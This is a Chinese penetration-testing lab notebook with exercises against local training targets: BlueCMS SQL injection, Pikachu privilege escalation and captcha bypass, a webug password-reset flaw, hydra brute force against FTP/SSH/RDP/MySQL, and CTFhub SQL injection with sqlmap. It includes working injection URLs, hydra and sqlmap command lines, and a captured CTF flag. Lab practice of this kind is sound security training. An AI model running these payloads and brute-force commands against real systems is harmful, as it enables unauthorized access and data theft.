








# 一、bluecms 旁注漏洞练习，为什么旁站攻击可以拿下主站？跨库的意思是什么？理解基于功能挖掘漏洞的过程。
## 1. 概念
### 1.1 旁站攻击
首先旁站是指部署在一个服务器上的多个站点，他们互为旁站。旁站攻击则是指针对同一服务器的不同站点进行渗透的方法。
### 1.2 旁注
旁注是一种入侵方法，在字面上解释就是－"从旁注入"，利用同一主机上面不同网站的漏洞 get shell。
### 1.3 为什么旁站可以拿下主站？
因为旁站和主站在一台服务器上。
### 1.4 跨库的意思是什么？
跨库是指同一数据库管理系统中，按照业务划分着的不同数据库，通过本业务数据操作其他业务数据库的操作就是跨库。
## 2. 环境部署
### 2.1 环境
```plain
 windows + php_study（php 5.4.45） + bluecms（v1.6 sp1源码）
```
### 2.2 初始化
访问：
```url
 http://192.168.228.137/bluecms/uploads/install/
```
   
勾选"同意"后点击继续。   
   
"继续"，进行参数配置   
   
"下一步",页面空白就成功了。   
   
### 2.3 访问
```url
 http://192.168.228.137/bluecms/uploads/
```
   
## 3. 攻击思路
```text
 (1)首先查看站点以及相关功能，分析可以进攻的点
 (2)对站点进行信息收集，寻找旁站进行攻击
 (3)寻找漏洞点，判断是否存在注入可能
 (4)注入成功之后，跨库获取其他信息，完成旁站攻击
```
## 4. 实战
### 4.1 信息收集
#### 4.1.1 访问主站
   
主站欢迎页可以收集到的功能点和可能存在的风险有：   
* 登录
```text
 1. 爆破
 2. 弱锁定
 3. SQL注入
```
* 注册
```text
 1. 弱密码
 2. 任意用户登录
```
* 发布新信息（需登录，猜测可能存在的风险，但得知此站一定存在后台管理） 
```text
 1. XSS
 2. 文件上传
```  
* 留言建议
```text
 1. XSS
```
#### 4.1.2 目录收集（因为是靶场，暂不收集ip，子域名，邮箱等信息）
   
发现疑似后台管理的路径：   


#### 4.1.3 后台管理登录页面分析
登录处可能存在的风险：
```text
 1. 弱锁定
 2. 密码爆破
 3. SQL注入
```
#### 4.1.4 后台管理登录爆破
* 验证是否存在`弱锁定`漏洞。   
   
`burp` 抓包发送至 `repeater`，多次发送登录请求，查看是否有提示锁定相关信息。   
   
多次发送后，返回结果都一样，无锁定。
* 账号尝试。   
   
    
   
分别使用了 `111111` 和 `admin` 登录，从提示信息中无法确定可能存在的账号。继续使用可能存在的账号进行注册，判断是否可以锁定账号，减少后续爆破的难度。   
   
可以判断 `admin` 为系统中存在的用户，后续只需破密码即可。   
* 爆破 `admin` 密码。
   
   
成功爆破后台 `admin` 密码。   
   


#### 4.1.5 后台渗透   
   
点击`获取js代码`   
   
尝试访问该地址：
```url
 http://192.168.228.137/bluecms/uploads/ad_js.php?ad_id=1
```
   
显示空白，打开显示源码查看具体的页面信息。   

尝试添加单引号 `'`。
   
发现单引号被转义，尝试去掉单引号，添加条件。
```url
 http://192.168.228.137/bluecms/uploads/ad_js.php?ad_id=1 and 1=1
```

   
发现此处存在注入，下面开始注入，过程同之前学的注入过程：
```text
 1. 确定字段个数与显示位。
 2. 查找库名，表明，字段，内容。
```

   
此处查询字段为7个，确定显示位.   
   
查找库名。   
   
列举出其他库名。   
```url
 view-source:http://192.168.228.137/bluecms/uploads/ad_js.php?ad_id=-111%20union%20all%20select%201,2,3,4,5,6,group_concat(schema_name)%20from%20information_schema.schemata
```
   
至此，成功实现旁站攻击，可以跨库查询其他业务数据库的数据，后续就是sql注入步骤。
# 二、水平越权 & 垂直越权漏洞实验。
## 1. 概念
### 1.1 什么是越权？
越权漏洞是指应用程序未对当前用户操作的身份权限进行严格校验，导致用户可以操作超出自己管理权限范围的功能，从而操作一些非该用户可以操作的行为。 简单来说，就是攻击者可以做一些本来不该他们做的事情（增删改查） 。
### 1.2 什么是水平越权？
发生在具有相同权限级别的用户之间。攻击者通过利用这些漏洞，访问其他用户拥有的资源或执行与其权限级别不符的操作。
### 1.3 什么是垂直越权？
发生在具有多个权限级别的系统中。攻击者通过利用这些漏洞，从一个低权限级别跳转到一个更高的权限级别。例如，攻击者从普通用户身份成功跃迁为管理员。
## 2. 实战
环境：pikaqiu
### 2.1 水平越权
   
点击`提示一下`，可以看到三个用户:
```text
 lucy/123456,lili/123456,kobe/123456
```
思路：
```text
 1. 准备两个浏览器了，模拟两个用户登录，并各自查看自己的信息
 2. 观察获取用户信息请求，分析是否存在越权漏洞
 3. 利用越权漏洞，查看他人信息
```   
火狐登录`lucy`，谷歌登录`lili`。   

   
观察查看用户信息请求：
```url
 http://127.0.0.1/vul/overpermission/op1/op1_mem.php?username=lili&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF
```   
其中有个 `username` 字段，尝试修改成 `lucy`，查看是否可以在 `lili` 的账号下，查看 `lucy` 的信息。   
   
成功访问到 `lucy` 的信息，再尝试没有登录过的 `kobe` 的信息。   
    
成功利用水平越权漏洞查看他人信息。
### 2.2 垂直越权
    
点击提示，发现有以下账号：
```text
 admin/123456,pikachu/000000,admin是超级boss
```   
思路：
```text
 1. 准备两个浏览器，模拟两个不同权限级别的用户登录。
 2. 对比两个不同权限级别用户的权限差异。
 3. 尝试使用低权限用户 `pikachu` 执行只有 `admin` 才有权限执行的操作。
```   
两个浏览器分别登录两个账号。   

   
我们发现，低权限用户只有查看权限，而 `admin` 有添加用户，删除用户的权限。我们先用`admin`用户添加用户。   
   
```url
 http://127.0.0.1/vul/overpermission/op2/op2_admin_edit.php
```   
尝试使用低权限用户访问该路径。   
   
可以正常访问，继续尝试添加，验证是否可以正常添加用户。   
   
刷新用户列表页面。   
   
成功使用低权限用户 `pikaqiu` 越权添加了用户 `222`。
# 三、密码修改逻辑漏洞   
漏洞环境：webbug   
安装：
```shell
 docker pull area39/webug
 docker run -d -p 8082:80 -p 33060:3306 area39/webug
```   
```text
 默认账号：admin/admin
 数据库账号：root/toor
```
## 1. 访问查看正常功能
   
   
这里存在bug，需要删除路径中的 `pt_env` 才能正常访问。   
   
单从功能上的风险分析：
```text
 1. 弱密码
 2. 爆破（不知旧密码，通过爆破的方式，修改为自己想要的密码）
 3. 明文传输
```   
## 2. 数据查看与准备
    
查看用户库，存在两个用户，`admin` 和 `aaaaa`。
## 3. `burp` 抓包分析请求。
   
从请求中可以看到，可操作的点有3个，路径中的id，旧密码和新密码。   
   
成功修改密码：

## 3. 尝试篡改请求中的参数，检查是否存在漏洞。
### 3.1 篡改id
   
`id`由`1`改为`2`。   
   
成功修改 `id` 为 2用户的密码，并且没有校验旧密码。
# 四、暴力破解：使用 hydra 实现对 ftp、ssh、rdp、mysql 的暴力破解。
## 1. hydra介绍
是一款由著名的黑客组织THC开发的开源暴力破解工具，支持大部分协议的在线密码破解，是网络安全·渗透测试必备的一款工具。（kali自带）

## 2. 参数详解
|参数名|参数含义|
|---|---|
|-l ：|	指定破解的用户，对特定用户破解|
|-L	|指定用户名字典|
|-p	|小写，指定密码破解，少用，一般是采用密码字典|
|-P	|大写，指定密码字典|
|-R	|继续从上一次进度接着破解|
|-S	|大写，采用SSL链接|
|-s	|小写，可通过这个参数指定非默认端口|
|-e	|可选选项，n：空密码试探，s：使用指定用户和密码试探|
|-t	|同时运行的线程数，默认为16|
|-C	|使用冒号分割格式，例如“登录名:密码”来代替 -L/-P 参数|
|-M	|指定目标列表文件一行一条|
|-o	|指定结果输出文件|
|-f	|在使用-M参数以后，找到第一对登录名或者密码的时候中止破解|
|-w	|设置最大超时的时间，单位秒，默认是30s|
|-vV|显示详细过程|
|server	|目标ip|
|service	|指定服务名，支持的服务和协议|
## 3. 爆破 `ftp`
### 3.1 `phpstudy` 开启ftp
   
   
查看ip   
      
查看网络是否通   
   
### 3.2 使用 `hydra` 进行爆破。
```shell
 hydra 192.168.228.137 ftp -l admin -P /usr/share/hydra/10-million-password-list-top-1000000.txt -vV -f -e ns
```
   
成功爆破 `ftp` 密码。
## 4. 爆破 `ssh`
### 4.1 `windows` 虚拟机中安装 `open` ssh。
安装成功之后，配置 `path`。   
   
打开终端，输入 `ssh`。   
   
### 4.2 使用 `hydra` 进行爆破。
```shell
 hydra 192.168.228.137 ssh -l Administrator -P /home/kali/learn/passwd.txt -vV -f -e ns -o ssh.log
```   
成功爆破。   
   

## 5.爆破 `rdp`
### 5.1 开启远程桌面
   
### 5.2 爆破 
```shell
 hydra 192.168.228.137 rdp -l Administrator -P /home/kali/learn/passwd.txt -vV -f -e ns 
```  

## 6.爆破 `mysql`
### 6.1 启用mysql
   
   
### 6.2 开启远程访问
   
```mysql
 grant all privileges on *.* to root@'%' identified by 'root';
```

### 6.3 爆破
```shell
 hydra 192.168.228.137 mysql -l root -P /home/kali/learn/passwd.txt -vV -f -e ns 
```   
   
成功爆破。
# 五、验证码安全
环境：pikaqiu
## 1. 验证码绕过（on client）+ 验证码绕过（on server）   
### 1.1 验证码绕过（on client）
正常功能说明：   
   
当验证码输入错误时，会弹出验证码输入错误。   
```text
 攻击思路：
 1. 首先判断此校验是前端做的还是后端做的
 2. 如果是前端做的可以尝试禁用js，或者修改源码来实现绕过
 3. 通过请求重放，查看验证码后端是否有做校验，如果没有校验，尝试进行密码爆破
```   
打开浏览器 `F12` 或者使用 `burp`，点击 `login`，观察弹窗时是否存在网络请求。   
   
   
所以判断此校验为前端校验。   
* 禁用js   

   
成功绕过。   
* 修改代码   
   

   
重新登录   
   
   
成功绕过。   
* 密码爆破
   
将请求发送至 `repeater` 模块，进行请求重放，观察返回。   
   
我们发现，无论怎么重放，这里的提示都是用户名和密码不存在，可以尝试爆破。   

   
   
成功爆破，密码为 `123456`。
### 1.2 验证码绕过（on server）
正常功能说明：   
   
当输入错误的验证码后，点击 `login` ，页面有刷新，下方提示 `验证码输入错误哦！`，点击验证码，会刷新。
```text
 攻击思路：
 1. 首先判断验证码的校验是在前端还是后端做的。
 2. 判断验证码是前端生成的还是后端生成的。
 3. 拦截请求包尝试重放，查看是否存在爆破的可能。
```   
打开浏览器 `F12` 或者使用 `burp`，点击 `login`，观察弹窗时是否存在网络请求。
   
   
有请求，并且后端返回`验证码输入错误哦！`，页面刷新后，验证码也变更了。继续查看验证码变更时机，以及是否可以重用。   
点击验证码，查看网络请求，判断验证码是前端还是后端生成的。   
   
   
由此可见，验证码为后端生成的，尝试正确的验证码，是否可以进行重放。   
   
`burp` 抓包。   
   
发现验证码错误，分析整个验证码周期，如下：
```text
 验证码周期：
 1. 访问登录页面，调用验证码接口，获取验证码
 2. 调用登录，如果登录失败返回该页面，此页面加载后会调用验证码接口，重新获取验证码
 3. 重新获取验证码之后，之前的验证码就失效了
```
   
所以如果如果排除页面显示调用的方式来过期验证码，仅登录失败，是否会过期验证码？所以接下来，`burp` 抓包不放（避免页面刷新，过期验证码），然后进行请求重放，验证是否存在爆破可能。   
    
请求保持，不放，发送至`repeater`。   
    
连续发送多次后，都是返回 `username or password is not exists～`。判断可以进行爆破。   
   
   
   
成功爆破，密码为 `123456`。
## 2. 验证码绕过（on server）实验中，为什么 burp 拦截开启的状态下，通过 Repeater 进行重放不会刷新验证码，关闭拦截后才会刷新验证码？   
上方推导过程中已经说明。   
```text
 验证码周期：
 1. 访问登录页面，调用验证码接口，获取验证码
 2. 调用登录，如果登录失败返回该页面，此页面加载后会调用验证码接口，重新获取验证码
 3. 重新获取验证码之后，之前的验证码就失效了
```   
验证码失效的原因主要是页面调用了获取验证码接口，触发时机是在页面加载时，通过 `repeater` 重放不会使登录页面刷新，所以不会使验证码失效。关闭拦截之后，会使原请求页面刷新，所以会调用获取验证码接口，从而使验证码失效。
# 六、CTFhub：SQL 注入靶场，分别完成手工注入和 Sqlmap 工具注入的过程。   
## 1. 登录 CTFhub，选择技能树
   
## 2. 选择 `字符型` 注入

## 3. 启用环境

## 4. 注入
### 4.1 正常功能演示
  
  
输入1，可以查询 `id` 为 1 的 `ID` 和 `Data`，同时可以看到执行的sql：   
```sql
 select * from news where id = '1';
```   
### 4.2 手动注入
可以看到两边加了单引号 `'` ，尝试构造以下参数：   

   
```sql
 1' and 1=1 -- 
 1' and 1=2 --
```
由上可以判断注入成功，执行了 `and` 后面的语句，接下来猜字段数量：
```mysql
 1' order by 2
 1' order by 3
```

   
由上可知，查询的字段数量为2，使用联合注入，判断显示位：   
```mysql
 1' union all select 1,2 --
```
   
没有显示我们想要显示的内容，被 `id` 为1的数据覆盖，将 `1` 改为 `-1`,用于显示我们想要的数据，接下来获取表，字段和内容。


   
成功获取到 `flag`为 `ctfhub{368ab6896a60043f43bced61}`。   
### 4.3 `sqlmap` 注入
判断是否存在注入点
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1"
```   
   
`id`参数存在注入漏洞。接下来获取数据库：   
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1" --dbs
```
   
选择 `sqli` ，查看其中的表和字段：   
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1" -D "sqli" --tables
```   
   
获取 `flag` 表中的字段：   
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1" -D "sqli" -T "flag" -C "flag" --dump
```   
   
成功获取到 `flag`。
## 5.提交`flag`。
   